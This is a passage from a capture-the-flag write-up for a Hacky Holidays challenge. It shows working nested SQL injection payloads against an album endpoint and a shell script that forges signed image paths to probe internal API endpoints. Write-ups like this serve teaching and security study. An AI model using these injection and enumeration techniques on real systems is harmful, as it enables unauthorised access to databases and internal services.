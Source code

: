 ```
+----+----------+--------------------------------------+
| 1  | 1        | 0a382c6177b04386e1a45ceeaa812e4e.jpg |
| 2  | 1        | 1254314b8292b8f790862d63fa5dce8f.jpg |
| 3  | 2        | 32febb19572b12435a6a390c08e8d3da.jpg |
| 4  | 3        | db507bdb186d33a719eb045603020cec.jpg |
| 5  | 3        | 9b881af8b32ff07f6daada95ff70dc3a.jpg |
| 6  | 3        | 13d74554c30e1069714a5a9edda8c94d.jpg |
+----+----------+--------------------------------------+
```

No other information seems available. Key to understand how to proceed was observing that in the following request the first UNION paramter is used to get the photo from the db


```
GET /r3c0n_server_4fdk59/album?hash=-1'+UNION+ALL+SELECT+1,NULL,NULL--+- HTTP/1.1
Host: hackyholidays.h1ctf.com

[picture from album 1 returned]  <--- THIS IS THE KEY DISCOVERY!!! 
```

We are able to confirm that there is a SQLi inside a SQLi (inserting the second one as first union column of the first injection) like in the following example:

	GET /r3c0n_server_4fdk59/album?hash=-1'+UNION+ALL+SELECT+"1' order by 3--+-",2,3--+- HTTP/1.1

Finally we are able to insert our data like in the following example, obtaining a valid signature:
	
```
GET /r3c0n_server_4fdk59/album?hash=-1'+UNION+ALL+SELECT+"-1'+union+all+select+NULL,NULL,0x41--+-",2,3--+- HTTP/1.1
Host: hackyholidays.h1ctf.com

     <img class="img-responsive" src="/r3c0n_server_4fdk59/picture?data=eyJpbWFnZSI6InIzYzBuX3NlcnZlcl80ZmRrNTlcL3VwbG9hZHNcL0EiLCJhdXRoIjoiNjAxNDZjMGY5YTQ0YTgyNWZhYTIzZTJkZDE3OWMxM2QifQ==">
```

which is 

	{"image":"r3c0n_server_4fdk59\/uploads\/A","auth":"60146c0f9a44a825faa23e2dd179c13d"}
	
Now we proceed with the assumtion that this image path is used by the server to interrogate the api

We try some common endpoints with this script

```
#!/bin/sh

while read word; do

/bin/echo -n "$word: "
path=$(/bin/echo -n "../api/$word" |xxd -p | tr -d '\n')
picurl=$(curl https://hackyholidays.h1ctf.com/r3c0n_server_4fdk59/album\?hash=\'+UNION+ALL+SELECT+\"-1\'+union+all+select+NULL,NULL,0x${path}--+-\",2,3--+- -s|grep data= |sed 's/^.*src="\([^"]*\)">/\1/')
echo $picurl

curl -s "https://hackyholidays.h1ctf.com$picurl" |grep -v 404
echo
done
```
